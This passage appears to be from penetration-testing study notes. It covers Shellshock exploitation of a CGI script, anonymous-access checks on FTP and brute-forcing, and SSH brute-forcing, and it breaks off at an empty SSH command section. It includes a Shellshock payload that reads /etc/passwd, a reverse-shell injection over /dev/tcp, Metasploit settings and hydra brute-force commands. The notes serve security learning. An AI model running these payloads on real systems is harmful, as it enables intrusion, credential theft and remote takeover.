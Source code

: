 - () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'


**How to gain reverse shell**

Setup the netcat listener:

- nc -nvlp 1234

Then inject:

- () {:;}; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/IP/PORT 0>&1

**Metasploit**

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

> set TARGETURI /gettime.cgi

## Exploiting FTP

- FTP (File Transfer Protocol) is a protocol that uses TCP port 21 and is used to facilitate file sharing between a server and client/clients.
- It is also frequently used as a means of transferring files to and from the directory of a web server.
- FTP authentication requires a username and password combination. As a result, we can perform a brute-force attack on the FTP server in order to identify legitimate credentials.
- In some cases, FTP servers maybe configured to allow anonymous access, which consequently allows anyone to access to the FTP server without providing any legitimate credentials.

**Exploitation:**

Anonymous check

- *nmap* target -sV --script=ftp-anon

Bruteforce login and pass:

- *hydra -L userlist -P passlist* target -t 4 *ftp*

##  Exploiting SSH

- SSH (Secure Shell) is a remote administration protocol that offers encryption and is the successor to Telnet.
- It is typically used for remote access to servers and systems.
- SSH uses TCP port 22 by default, however, like other services, it can be configured to use any
other open TCP port.
- SSH authentication can be configured in two ways:
    - Username & password authentication
    - Key based authentication
- In the case of username and password authentication, we can perform a brute-force attack on the SSH server in order to identify legitimate credentials and consequently gain access to the target system.

**Exploitation:**

Bruteforce login and pass:

